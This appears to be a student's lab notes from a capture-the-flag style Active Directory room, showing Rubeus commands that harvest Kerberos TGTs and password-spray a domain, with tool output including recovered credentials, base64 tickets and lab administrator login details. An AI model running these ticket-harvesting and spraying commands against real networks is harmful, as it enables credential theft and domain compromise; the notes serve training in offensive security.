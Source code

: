 Rubeus is on target machine
Start Machine > RDP
- `username:Administrator Password:P@$$W0rd Domain: controller.local`

**Harvesting tickets with Rubeus**

```Powershell
cd .\Downloads\
ls
Rubeus.exe harvest /interval:30      # harvests TGTs every 30 seconds
```

```
v1.5.0                                                                                                                                                            [*] Action: TGT Harvesting (with auto-renewal)                                   [*] Monitoring every 30 seconds for new TGTs                                     [*] Displaying the working TGT cache every 30 seconds

User       :  Administrator@CONTROLLER.LOCAL 
StartTime  :  1/12/2024 8:23:48 AM         
EndTime    :  1/12/2024 6:23:48 PM  
RenewTill  :  1/19/2024 8:23:48 AM 
Flags      :  name_canonicalize, pre_authent, initial, renewable, forwardable    Base64EncodedTicket   :                                                          

doIFjDCCBYigAwIBBaEDAgEWooIEgDCCBHxhggR4MIIEdKADAgEFoRIbEENPTlRST0xMRVIuTE9DQUyiJTAjoAMCAQKhHDAaGwZrcmJ0Z3QbEENPTlRST0xMRVIuTE9DQUyjggQwMIIELKADAgESoQMCAQKiggQeBIIEGlAJBqiNHaZ73yoZXhKTYspVZSFdijVlzUag ....

```

**Brute forcing password-spraying**

Rubeus 
- brute force passwords = single user account + wordlist of passwords for attack
- sprays passwords = single password ("Password1") and _spray_ it against all found accounts in the domain. sprays password and gives a `.kirbi` TGT ticket to get a TGS ticket

to password spray you need:
- add domain controller domain name to windows host file
- add the IP and domain name 
```
controller\administrator@CONTROLLER-1 C:\Users\Administrator\Downloads>

echo 10.10.237.76 CONTROLLER.local >> C:\Windows\System32\drivers\etc\hosts
cd Downloads
Rubeus.exe brute /password:Password1 /noticket

```

```
[-] Blocked/Disabled user => Guest
[-] Blocked/Disables user => krbtgt
[+] STUPENDOUS => Machine1: Password1
[*] base64(Machine1.kirbi):

doIFWjCCBVagAwIBBaEDAgEWooIEUzCCBE9hggRLMIIER6ADAgEFoRIbEENPTlRST0xMRVIuTE
9DQUyiJTAjoAMCAQKhHDAaGwZrcmJ0Z3QbEENPTlRST0xMRVIubG9jYWyjggQDMIID/6ADAgESoQMCAQ
KiggPx ...

```
